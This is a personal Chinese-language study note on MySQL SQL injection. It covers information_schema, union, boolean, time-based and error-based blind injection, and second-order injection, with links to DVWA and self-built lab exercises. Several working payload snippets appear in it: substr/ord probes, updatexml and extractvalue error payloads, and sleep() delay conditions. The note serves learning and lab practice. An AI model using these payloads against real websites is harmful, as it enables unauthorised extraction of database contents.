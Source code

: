 ```yaml
---
{"date":"2024-07-26","tags":["xiaodi"],"url":null,"dg-publish":true,"permalink":"/随记/WEB攻防_SQL注入_{2024-07-26}/","dgPassFrontmatter":true}
---
```



```table-of-contents
```


# 数据库框架

+ maysql
	+ ==**数据库A**==
		+ **表a**
			+ 列名1
				+ 数据
			+ 列名2
				+ 数据
		+ **表b**
			+ 列名1
				+ 数据
			+ 列名2
				+ 数据
	+ ==**数据库B**==
		+ **表c**
			+ 列名1
				+ 数据
			+ 列名2
				+ 数据
		+ **表d**
			+ 列名1
				+ 数据
			+ 列名2
				+ 数据


## 保存关键信息数据库

在mysql数据库中，有一个固定的数据库**information_schema**保存着有关数据库的很多信息

+ **表SCHEMATA**(5列)
	+ 保存着所有数据库名称
	+ 关键列：SCHEMA_NAME
![Pasted image 20240726111753.png](/img/user/picture/Pasted%20image%2020240726111753.png)

+ **表TABLES**
	+ 记录**表名信息**的表
	+ 关键列：TABLE_SCHEMA、TABLE_NAME
![Pasted image 20240726112739.png](/img/user/picture/Pasted%20image%2020240726112739.png)


+ **表columns**
	+ 记录**列名**信息表
	+ 关键列：TABLE_SCHEMA、TABLE_NAME、COLUMN_NAME
![Pasted image 20240726113023.png](/img/user/picture/Pasted%20image%2020240726113023.png)

# SQL注入类型

+ 基于正常回显
	联合查询 union select
	
+ 盲注
	+ 布尔型盲注
    + 基于时间盲注sleep()
    + 基于错误回显
	    floor()
	    extractvalue()
	　　updatexml()





# masql 常规注入查询

获取相关数据：

1、数据库版本-看是否符合information_schema查询-version()
低版本没有information_schema数据库

2、数据库用户-看是否符合ROOT型注入攻击-user()

3、当前操作系统-看是否支持大小写或文件路径选择-@@version_compile_os

4、数据库名字-为后期猜解指定数据库下的表，列做准备-database()


[[墨者_XFF注入_{2024-07-30}]]

# SQL盲注

## 布尔盲注报错

基于布尔型SQL盲注即在SQL注入过程中，应用程序仅仅返回`True`（页面）和`False`（页面）。
这时，我们无法根据应用程序的返回页面得到我们需要的数据库信息。但是可以通过构造逻辑判断（比较大小）来得到我们需要的信息。

>[!note]
>*也就是我们注入查询的结果没有办法直接显示，所以我们可以依靠来构造查语句的**正确性**来**猜测爆破**信息*

常用语句：

```sql
and length(database())=7;

and left(database(),1)='p';

and left(database(),2)='pi';

and substr(database(),1,1)='p';

and substr(database(),2,1)='i';

and ord(left(database(),1))=112;
```




### practice-DVWA

[[DVWA-SQL盲注-easy_{2024-07-31}]]


## 报错盲注

**使SQL语句报错的语法，用于注入结果无回显但错误信息有输出的情况。**

### 通过UpdateXml报错

```sql
and updatexml(1,concat(0x7e,(SELECT version()),0x7e),1)
```


### 通过ExtractValue报错

```sql
and extractvalue(1, concat(0x7e,(SELECT version()),0x7e))
```


### 通过floor报错

```sql
//没看懂
```

[[自建环境_SQL报错盲注测试_{2024-08-01}]]

https://juejin.cn/post/7156744293988696095
https://www.jianshu.com/p/bc35f8dd4f7c

## 延迟盲注

```sql
and if(1=1,sleep(5),0)

or if(1=1,sleep(5),0)

or if(ord(left(database(),1))=107,sleep(2),0)
```




# 二次注入

二次注入可以理解为，**攻击者构造的恶意数据存储在数据库**后，**恶意数据被读取并进入到SQL查询语句**所导致的注入。防御者即使对用户输入的恶意数据进行**转义**，当数据插入到数据库中时被处理的数据又被还原，Web程序调用存储在数据库中的恶意数据并执行SQL查询时，就发生了SQL二次注入。

也就是说一次攻击造成不了什么，但是两次配合起来就会早成注入漏洞。



![Pasted image 20240802112705.png](/img/user/picture/Pasted%20image%2020240802112705.png)



[[随记/自建环境_二次注入测试_{2024-08-02}\|自建环境_二次注入测试_{2024-08-02}]]